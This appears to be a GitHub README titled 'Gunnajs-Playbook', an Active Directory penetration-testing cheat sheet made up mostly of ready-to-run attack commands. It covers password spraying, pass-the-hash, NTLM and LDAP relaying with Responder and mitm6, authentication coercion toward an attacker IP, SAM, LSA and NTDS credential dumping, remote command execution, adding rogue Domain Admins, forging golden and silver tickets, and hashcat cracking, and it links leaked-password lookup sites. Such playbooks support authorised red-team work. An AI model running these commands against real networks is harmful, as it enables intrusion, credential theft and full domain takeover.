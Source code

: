 [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

https://www.n00py.io/2022/10/practical-attacks-against-ntlmv1/

https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/rdp-mitm

https://www.thehacker.recipes/ad/movement/dacl/addmember

https://www.blackhillsinfosec.com/mitm6-strikes-again-the-dark-side-of-ipv6/

# Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader-adc.jpg)

# Toolbox
<details>
  <summary> Utils </summary> 

  ### NMAP
  https://nmap.org/
  
  ### linWinPwn - Active Directory Vulnerability Scanner
  https://github.com/lefayjey/linWinPwn
  
  <details>
    <summary> Installation </summary>  
  
  #### Install the dependency NetExec
    
  ```shell
  apt install pipx git
  pipx ensurepath
  pipx install git+https://github.com/Pennyw0rth/NetExec
  ```
    
  #### Git clone the repository and make the script executable
  ```shell
  git clone https://github.com/lefayjey/linWinPwn
  cd linWinPwn; chmod +x linWinPwn.sh
  ```
  #### Install requirements using the `install.sh` script (using standard account)
  ```shell
  chmod +x install.sh
  ./install.sh
  ```
  </details>
  
  ### BloodHound
  https://github.com/BloodHoundAD/BloodHound
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  sudo apt-get install bloodhound
  ```
  ```shell
  sudo neo4j console
  ```
  #### Navigate to http://localhost:7474/ 
  
  </details>
  
  ### Responder
  https://github.com/lgandx/Responder
  
  ### NetExec
  https://www.netexec.wiki/
  
  <details>
    <summary> Installation </summary> 
  
  #### Installation
  ```shell
  apt install netexec
  ```
  #### Integrate Bloodhound
  ```shell
  nano ~/.nxc/nxc.conf
  ```
  ```shell
  [BloodHound]
  bh_enabled = True
  bh_uri = 127.0.0.1
  bh_port = 7687
  bh_user = <username>
  bh_pass = <password>
  ```
  
  </details>

  ### go-secdump
  https://github.com/jfjallid/go-secdump
  <details>
    <summary> Installation </summary>

  ```shell
  sudo apt install golang-go
  git clone https://github.com/jfjallid/go-secdump
  cd go-secdump/
  go run main.go
  go build
  ```
  </details>

  ### mitm6
  https://github.com/dirkjanm/mitm6
  <details>
    <summary> Installation </summary>

  ```shell
  sudo apt install mitm6
  ```
  </details>
  
  ### Evil-WinRM
  https://github.com/Hackplayers/evil-winrm
  
  <details>
    <summary> Installation </summary>
    
  ```shell
  gem install evil-winrm
  ```
  </details>
  
  ### FindUncommonShares
  https://github.com/p0dalirius/FindUncommonShares
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/p0dalirius/FindUncommonShares
  cd FindUncommonShares/
  pip install -r requirements.txt
  ```
  </details>
  
  ### Impacket
  https://github.com/fortra/impacket
  
  ### pypykatz
  https://github.com/skelsec/pypykatz
  <details>
    <summary> Installation </summary> 
  
  #### Install prerequirements
  ```shell
  pip3 install minidump minikerberos aiowinreg msldap winacl
  ```
  #### Clone this repo
  ```shell
  git clone https://github.com/skelsec/pypykatz.git
  cd pypykatz
  ```
  #### Install it
  ```shell
  python3 setup.py install
  ```
  </details>

  ### certipty
  https://github.com/ly4k/Certipy

  ### Pre2k
  https://github.com/garrettfoster13/pre2k
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/garrettfoster13/pre2k.git && cd pre2k/
  ```
  ```shell
  pip3 install .
  ```
  </details>
  
  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
  
  ### PRET
  https://github.com/RUB-NDS/PRET
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/RUB-NDS/PRET && cd PRET
  ```
  ```shell
  python -m pip install colorama pysnmP
  ```
  </details>

</details>

# Wordlists
<details>
  <summary> Lists </summary> 
  
  ### Generate wordlist
  https://zzzteph.github.io/weakpass/
  
  ### Top 10 million
  https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)
  
  ### Crackstation
  https://crackstation.net/files/crackstation.txt.gz (14.6 GB)
  
  ### Large p-list
  https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)
  
  ### Rockyou2021
  https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
</details>

# Leaked password
<details>
  <summary> Sites </summary>   

  ### breachdirectory (free)
  https://breachdirectory.org/

  ### Records Search (free)
  https://search.0t.rocks/

  ### DeHashed
  https://www.dehashed.com/

  ### Snusbase
  https://snusbase.com/

  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
</details>

# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```shell
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```shell
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```shell
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```shell
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```shell
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```shell
  nltest /dclist:<domainname>
  ```
</details>

<details>
  <summary> NetExec host enumeration </summary> 
  
  #### NetExec map network hosts 
  ```shell
  NetExec smb <subnet>
  ```
  
</details>

# Authentication
    
<details>
  <summary> NetExec domain authentication </summary> 

  #### Password
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password>
  ```

  #### Pass-the-Hash
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -H <hash[LM:NT]> 
  ```

  #### Kerberos
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -k -p <AD_password>
  ```

  #### Using kcache

  ```shell
  export KRB5CCNAME=<Kerberos_ticket>
  ```

  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> --use-kcache
  ```

  #### Pass-the-Certificate
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> ---pfx-cert <user.pfx>
  ```

</details> 
  
<details>
  <summary> NetExec local authentication </summary> 
  
  ```shell
  NetExec smb <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

<details>
  <summary> NetExec password spray </summary> 
  
  ### Spray a password on a user list
  ```shell
  NetExec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
  ```

</details> 

# Acitve directory enumeration

<details>
  <summary> LDAPDomainDump </summary> 

#### Collect domain info
```shell
ldapdomaindump -u <Domain>\<AD_user> -p <AD_password> <Domain_Controller_IP>
```

</details>

<details>
  <summary> NetExec active users </summary> 

#### Get what users are enabled
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> --active-users
```

</details>

<details>
  <summary> NetExec password policy </summary> 

#### Get the password policy of the domain
```shell
NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password> --pass-pol
```

</details>

<details>
  <summary> NetExec BloodHound dump all info </summary> 

#### Dump 
```shell
NetExec ldap <Domain_Controller_IP> -d <Domain> -u <AD_user> -p <AD_password> --bloodhound --collection All
```

</details>

<details>
  <summary> BloodHound mark all relevant groups as highvalue </summary> 

#### Query
```shell
MATCH (x:Group)
WHERE x.highvalue=true
MATCH p=shortestPath((n:Group)-[r*1..]->(x)) 
WHERE x <> n
AND NONE (r in relationships(p) WHERE type(r) = "CanRDP")
SET n.highvalue = true
RETURN http://n.name, n.highvalue
```

</details>

<details>
  <summary> NetExec enumerate null sessions </summary> 

#### Check if Null Session is enabled
```shell
NetExec smb <Domain_Controller_IP> -u '' -p ''
NetExec smb <Domain_Controller_IP> -u '' -p '' --shares
NetExec smb <Domain_Controller_IP> -u '' -p '' --pass-pol
NetExec smb <Domain_Controller_IP> -u '' -p '' --users
NetExec smb <Domain_Controller_IP> -u '' -p '' --groups
```

</details>

<details>
  <summary> NetExec enumerate guest logon </summary> 

#### Check if domain guest account or the local guest account is enabled
```shell
NetExec smb <Domain_Controller_IP> -u 'a' -p ''
NetExec smb <Domain_Controller_IP> -u 'a' -p '' --shares
```

</details>

<details>
  <summary> NetExec enumerate logged on users </summary> 

####  Domain account
```shell
NetExec smb <target_IP> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> --loggedon-users
```

####  Local account
```shell
NetExec smb <target_IP> -u <local_user> -H <hash[LM:NT]> --local-auth --loggedon-users
```

</details>

<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using netexec
      - Anonymous enumeration using netexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```shell
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using netexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - netexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```shell
  sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>

# Share enumeration

<details>
  <summary> List readable or writable shares </summary> 

```shell
NetExec smb <target_IP> -u <username> -p <password>  --shares --filter-shares READ WRITE
```

</details>

<details>
  <summary> List uncommon shares and export as xlsx </summary> 

```shell
python3 ./FindUncommonShares.py -au <username> -ap <password> -ad <AD_domain> -ai <Domain_Controller_IP> --readable --export-xlsx shares
```

</details> 

<details>
  <summary> Impacket smbclient </summary> 
  
### Passord authentication
```shell
impacket-smbclient <AD_domain>/<username>:<password>@<target_IP>
```

### Pass-the-Hash
```shell
impacket-smbclient -hashes <hash[LM:NT]> <username>:@<target_IP>
```

</details> 

<details>
  <summary> Mount and unmount shares </summary> 

### Mount share
```shell
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```shell
sudo umount <./folder>
```

### Search for keywords in files
```shell
grep -i <keyword> *
```

</details> 

# Computer accounts 

<details>
  <summary> NetExec MachineAccountQuota </summary> 

#### Retrieve the MachineAccountQuota 
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> -M maq
```

</details>

<details>
  <summary> impacket-addcomputer </summary> 

#### Create a computer account
```shell
impacket-addcomputer -dc-ip <Domain_Controller_IP> -computer-name <Computer_Name> -computer-pass '<computer_password>' '<AD_domain>/<AD_user>:<AD_password>'
```

</details>

<details>
  <summary> Pre-Windows 2000 computers </summary> 

#### NetExec pre2k - obtain tickets
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> -M pre2k
```

#### Pre2k
```shell
pre2k auth -d <AD_domain> -dc-ip <Domain_Controller_IP> 
```

</details>

# MITM and Relaying
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```shell
  sudo responder -I eth0
  ```

  Switches for Responder
  * -d = DHCP 
  * -D = DHCP-DNS
  * -w = WPAD
  * -F = Force WPAD atuh
  * --lm = Force ntlmv1
  * --disable-ess = No ESS (Extended Session Security
  
 </details>
 <details>
  <summary> NetExec lnkfile with slinky </summary> 
  
  ### Creates a lnk file for a share with read/write rights
  ```shell
  NetExec -smb <Target_IP> -u <AD_user> -p <AD_password> -M slinky -o NAME=<filename> SERVER=<attacker_IP>
  ```
   
  ### Remove the lnk file
  ```shell
  NetExec -smb <Target_IP> -u <AD_user> -p <AD_password> -M slinky -o NAME=<filename> SERVER=<attacker_IP> CLEANUP=True
  ```
    
</details>
<details>
  <summary> NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for NTLMRelayx
  ```shell
  NetExec smb <IPs> --gen-relay-list <nosmbsigning.txt>
  ```

  ### NTLMRelayx
  ```shell
  sudo impacket-ntlmrelayx -of <outfile.txt> -tf <nosmbsigning.txt> -smb2support
  ```

  ### go-secdump NTLM Relaying
  ```shell
  ./go-secdump --host <target> -n --relay
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 
  ```
</details>

<details>
  <summary> NTLMv1-relay </summary>   

  ### NTLMRelayx delegate access if NTLMv1 is enabled
  #### Authentication can be forced via NetExec's coerce_plus Module, check if the answer is in NTLMv1
  ```shell
  sudo python3 ntlmrelayx.py -t ldaps://<target> --remove-mic -smb2support --delegate-access
  ```

</details>

<details>
  <summary> LDAP-relay </summary>   

  ### Evaluate no ldap-signing and create an IP txt file for NTLMRelayx
  ```shell
  NetExec ldap <IPs> -d <Domain_Name> -u <AD_user> -p <AD_password> -M ldap-checker
  ```

  ### NTLMRelayx escalate user to Enterprise Admins (DCSync rights)
  ```shell
  sudo impacket-ntlmrelayx -t ldaps://<Domain_Controller_IP> --escalate-user <AD_user>
  ```

  ### NTLMRelayx delegate access
  ```shell
  sudo impacket-ntlmrelayx -t ldaps://<Domain_Controller_IP> --delegate-access
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 
  ```
</details>

<details>
  <summary> mitm6-relay </summary>   

  ### mitm6
  ```shell
  sudo mitm6 -d <Domain_Name>
  ```

  ### NTLMRelayx 
  ```shell
  impacket-ntlmrelayx -6 -t ldaps://<Domain_Controller_IP> -wh fakewpad.<Domain_Name> -l loot 
  ```

</details>

<details>
  <summary> Kerberos-relay </summary>   

  ### In the works
  ```shell
  ---
  ```

</details>

<details>
  <summary> NetExecd coerce_plus </summary> 
  
  ### NetExec Coerce Authentication
  ```shell
  NetExec smb <target> -u <AD_user> -p <AD_password> -M coerce_plus -o LISTENER=<AttackerIP> METHOD=<method>
  ```
  ### Methods
  * PetitPotam
  * printerbug
  * dfscoerce
</details> 

# Delegation abuse

<details>
  <summary> BloodHound query for Delegation rights </summary> 
  
  ```shell
  MATCH q=(u)-[:GenericWrite|GenericAll|WriteDacl|
WriteOwner|Owns|WriteAccountRestrictions|AllowedToAct|AllowedToDelegate]->(:Computer) WHERE NOT
u.objectid ENDS WITH "-512" AND NOT
u.objectid ENDS WITH "-519" AND NOT
u.objectid ENDS WITH "-544" AND NOT
u.objectid ENDS WITH "-548" RETURN q
  ```
</details> 

<details>
  <summary> Netexec misconfigured delegation </summary> 
  
  ```shell
  NetExec ldap <Domain_Controller_IP> -u <username> -p <password> --find-delegation
  ```
</details> 

<details>
  <summary> Netexec trusted for delegation </summary> 

  ```shell
  NetExec ldap <Domain_Controller_IP> -u <username> -p <password> --trusted-for-delegation
  ```
    
</details> 
    
# AD Certificates

<details>
  <summary> NetExec list all PKI enrollment servers </summary> 
  
  ```shell
  NetExec ldap <Domain_Controller_IP> -u <username> -p <password> -M adcs
  ```
</details> 

<details>
  <summary> ESC1 </summary> 
  
  ```shell
  ----
  ```
</details> 

# Kerberoasting & ASREPRoast
<details>
  <summary> Kerberoasting </summary> 

  ```shell
  NetExec ldap <Domain_Controller_IP> -u <username> -p <password> --kerberoasting <output>.txt
  ```
  </details> 

  <details>
  <summary> ASREPRoast </summary> 

  ```shell
  NetExec ldap <Domain_Controller_IP> -u <username> -p '' --asreproast <output>.txt
  ```

</details> 

# Credential dumping

<details>
  <summary> Domain authentication </summary> 

  ### Dump NT:hash with masky with domain user
  ### Get ADCS server name
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -M adcs
  ```

  ### Retrieve the NT hash using PKINIT
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M masky -o CA=<'ADCS_server_name'>
  ```
  
  ### NetExec Dump SAM with domain user
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> --sam
  ```

  ### go-secdump Dump SAM with domain user
  ```shell
  ./go-secdump --domain <Domain_Controller_IP> --host <target_IP> --user <username> ---pass <password> --hash <hash[LM:NT]]> --sam
  ```
  
  ### NetExec Dump LSA with domain user
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash_NT]> --lsa
  ```
  ### go-secdump Dump LSA with domain user
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <username> ---pass <password> --hash <hash[LM:NT]]> --lsa
  ```

</details> 

<details>
  <summary> Local authentication </summary> 
  
  ### NetExec Dump SAM on local computer
  ```shell
  NetExec smb <target_IP> -u <local_user> -p <password> -H <hash[LM:NT]> --local-auth --sam
  ```

  ### sec-dump Dump SAM on local computer
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <local_user> ---pass <password> --hash <hash[LM:NT]]> --sam --local
  ```
  
  ### NetExec Dump LSA on local computer
  ```shell
  NetExec smb <target_IP> -u <local_user> -p <password> -H <hash[LM:NT]> --local-auth --lsa
  ```

  ### go-secdump Dump LSA on local computer
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <local_user> ---pass <password> --hash <hash[LM:NT]]> --lsa --local
  ```

  ### NetExec Dump lsass with hash_spider to recursively using BloodHound to find local admins path (adminTo)
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth -M hash_spider
  ```

  ### Stored User Names and Passwords on Windows Credential Manager
  ```shell
  rundll32.exe keymgr.dll KRShowKeyMgr
  ```
  
</details> 

<details>
  <summary> NetExec dump with ReadLAPSPassword rights </summary> 

  ### Check if the user can read LAPS
  ```shell
  NetExec ldap <AD_domain> -u <username> -p <password> -H <hash[LM:NT]> -M laps
  ```
  
  ### Dump SAM 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M laps --sam
  ```
  
  ### Dump LSA 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --M laps --lsa
  ```
  
</details> 

<details>
  <summary> Run blindsigt from impackets smb share </summary> 

  ### Starting a SMB Server
  ```shell
  impacket-smbserver.py <shareName> <sharePath>
  ```
  
  ### Run blindsight from host 
  ```shell
  \\<target_IP>\<shareName>\blindsight.exe
  ```

  ### Retrieve the file
  ```shell
  lget <output>.log
  ```

  ### Unscramble memory dump:
  ```shell
  blindsight.exe <output>.log
  ```
  
</details> 

<details>
  <summary> Examine lsass dump with pypykatz </summary> 

```shell
pypykatz lsa minidump lsass.DMP
```
</details> 

<details>
  <summary> NetExec Dump the NTDS.dit from target DC (DCSync) </summary> 

#### Dump all user hashes
```shell
NetExec smb <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> --ntds
```

#### Dump a specific user hash
```shell
NetExec smb <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> --ntds --user <AD_user>
```
</details> 

# Remote Code Execution

<details>
  <summary> NetExec </summary> 
  
  ### Executes command via the follwoing protocols: 
  * `wmiexec` executes commands via WMI
  * `atexec` executes commands by scheduling a task with windows task scheduler
  * `smbexec` executes commands by creating and running a service
  
  #### command
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -x <command>
  ```
  #### PowerShell
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -X <command>
  ```
  #### Task Scheduler
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
  ```
</details> 

<details>
  <summary> Evil-WinRM </summary> 
  
  ```shell
  evil-winrm -i <target_IP> -u <username> -p <password> -H <hash[LM:NT]>
  ```
</details> 

<details>
  <summary> pth-rpcclient </summary> 

  ```shell
  pth-rpcclient -U <AD_domain>/<username>%<hash[LM:NT]> <Domain_Controller_IP>
  ```
</details> 

<details>
  <summary> pth-net add new domain admin </summary> 

  ```shell
  pth-net rpc group addmem "Domain Admins" <username> -U <AD_domain>/<username>%<hash[LM:NT]> -S <Domain_Controller_IP>
  ```
</details> 

<details>
  <summary> Command to add a new Domain Admin </summary> 
  
  #### Create the new user
  ```Shell
  net user <username> <password> /add /domain
  ```

  #### Add the new user to the Domain Admins group
  ```Shell
  net group "Domain Admins" <username> /add /domain
  ```

  #### Add user to Domain Admins by creating a scheduled task
  ```Shell
  schtasks /create /tn "AddDomainAdmin" /tr "net group \"domain admins\" <AD_User> /add /domain" /sc once /st 08:30 /ru "<Domain_Name\<Privilged_AD_User>"
  ```

  #### Running the scheduled task
  ```Shell
  schtasks /run /tn "AddDomainAdmin"
  ```

  #### Add an user to the domain admin
  ```ps
  powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
  ```
</details> 

# AV Evasion

<details>
  <summary> NetExec </summary> 
  
  </details> 

</details> 
  
# golden and silver tickets

<details>
  <summary> Silver tickets </summary> 

| Service Type                               | Service Silver Tickets   |
|--------------------------------------------|--------------------------|
| WMI                                        | HOST, RPCSS              |
| PowerShell Remoting                        | HOST, HTTP, WSMAN, RPCSS |
| WinRM                                      | HOST, HTTP               |
| Scheduled Tasks                            | HOST                     |
| Windows File Share (CIFS)                  | CIFS                     |
| LDAP operations including Mimikatz DCSync  | LDAP                     |
| Windows Remote Server Administration Tools | RPCSS, LDAP, CIFS        |


</details>

<details>
  <summary> Tickets </summary> 
  
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```shell
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```shell
klist
```

#### Execute remote commands with any of the following by using the TGT
```shell
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

</details>

# Printers
<details>
  <summary> PRET </summary> 

  ### Nmap printers
  ```shell
  nmap -p 9100 <IP/mask>
  ```
  ### cheat sheet
  ```shell
  http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
  ```
  ### Kickstart PRET 
  ```shell
  pret.py target {ps,pjl,pcl}
  ```
</details>

# Hash cracking
<details>
  <summary> Attack modes </summary> 

  ### Dictionary attack (-a 0)
  #### Tries all words in a list
  ```shell
  hashcat64.exe -m <hash_type> -a 0 <hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Combinator attack (-a 1)
  #### Combines words from multiple wordlists
  ```shell
  hashcat64.exe -m <hash_type> -a 1 <hashes.txt> <passlist1.txt> <passlist2.txt> -o cracked.txt
  ```

  ### Brute force (-a 3)
  #### Tries all characters from given charsets
  ```shell
  hashcat64.exe -m <hash_type> -a 3 <hashes.txt> ?a?a?a?a?a?a?a?a --increment -o cracked.txt
  ```

  ### Hybrid (-a 6)
  #### Combines wordlists+masks
  ```shell
  hashcat64.exe -m <hash_type> -a 6 <hashes.txt> <passlist.txt> ?a?a?a?a?a?a?a?a --increment -o cracked.txt
  ```

  ### Hybrid (-a 7)
  #### Combines masks+wordlists
  ```shell
  hashcat64.exe -m <hash_type> -a 7 <hashes.txt> ?a?a?a?a?a?a?a?a <passlist.txt> --increment -o cracked.txt
  ```

 #### Built-in charsets
 * ?l = abcdefghijklmnopqrstuvwxyz
 * ?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
 * ?d = 0123456789
 * ?h = 0123456789abcdef
 * ?H = 0123456789ABCDEF
 * ?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
 * ?a = ?l?u?d?s
 * ?b = 0x00 - 0xff
 
 #### Password length increment
* --increment-min <number>
* --increment-max <number>
</details>

<details>
  <summary> Hash types </summary> 

  ### LM

  ```shell
  hashcat64.exe -m 3000 -a 3 <LM-hashes.txt> -o cracked.txt
  ```

  ### NTLM
  ```shell
  hashcat64.exe -m 1000 -a 3 <NTLM-hashes.txt> -o cracked.txt
  ```

  ### NTLMv1
  ```shell
  hashcat64.exe -m 5500 -a 3 <NTLMv1-hashes.txt> -o cracked.txt
  ```

  ### NTLMv2
  ```shell
  hashcat64.exe -m 5600 -a 0 <NTLMv2-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```shell
  hashcat64.exe -m 18200 -a 0 <asrep-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```shell
  hashcat64.exe -m 13100 -a 0 <krb5tgs-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```shell
  hashcat64.exe -m 19600 -a 0 <krb5tgsaes128-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```shell
  hashcat64.exe -m 19700  -a 0 <krb5tgsaes256.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```shell
  hashcat64.exe -m 19800  -a 0 <krb5tetype17.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```shell
  hashcat64.exe -m 19900  -a 0 <krb5tetype18.txt> <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```shell
  hashcat64.exe -m 2100 -a 0 <mscache2-hashes.txt> <passlist.txt> -o cracked.txt
  ```
  </details>

